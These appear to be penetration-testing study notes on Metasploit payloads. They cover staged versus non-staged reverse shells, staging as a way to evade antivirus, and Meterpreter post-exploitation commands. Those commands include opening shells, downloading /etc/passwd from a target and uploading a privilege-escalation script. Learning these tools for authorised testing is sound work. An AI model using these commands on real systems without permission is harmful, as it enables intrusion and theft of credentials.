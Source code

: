 # Using Metasploit Payloads

### Staged vs Non-Staged Payloads
- `There are several situations in which we would prefer to use a staged payload instead of non-staged. If there are space-limitations in an exploit, a staged payload might be a better choice as it is typically smaller. In addition, we need to keep in mind that antivirus software can detect shellcode in an exploit. By replacing the full code with a first stage, which loads the second and malicious part of the shellcode, the remaining payload is retrieved and injected directly into the victim machine's memory. This may prevent detection and can increase our chances of success.`

- List all payloads
	- `show payloads`
- **"/"**
	- shell_reverse_tcp = not staged
	- shell/reverse_tcp = staged
### Meterpreter Payload
	- dynamically extended at run-time
	- payload resides entirely in memory on the target
	- communication is encrypted by defaul
	- All payloads are staged
		- In situations where our bandwidth is limited or we want to use the same payload to compromise multiple systems in an assessment, a non-staged Meterpreter payload comes in quite handy.

- Example:
	- After selecting the 64-bit non-staged version of _meterpreter_reverse_tcp_ as payload, we can review its options
	- `run`
	- `help`
	- start gathering information
		- `sysinfo
		- `getuid
	- *channels*
		- when interacting with a system within a session
	- start interactive shell
		- `shell`
	- execute command in the context of a *channel*
		- `id`
	- Background the *channel*
		- `Ctrl + Z`
	- Start a second interactive shell, execute a command, and also, background the channel.
		- `shell`
		- `whoami`
		- `Ctrl + z`
	- List all active channels
		- `channel -l`
	- Interact with channel 1 again
		- `channel -i 1`
		- `id`
	- Review commands
		- `help`
	- Use the _download_ and _upload_ commands from the category _File system Commands_ to transfer files to and from the system.
		- change the local directory on our Kali machine to **/home/kali/Downloads**
			- `lcd /home/kali/Downloads`
		- Download **/etc/passwd** from the target machine to our Kali system.
			- `download /etc/passwd`
		- **cat** the file on local system
			- `lcat /home/kali/Downloads/passwd`
		- Upload *unix-privesc-check* tp **/tmp**
			- ```upload /usr/bin/unix-privesc-check /tmp/```
		- Check
			- `ls /tmp`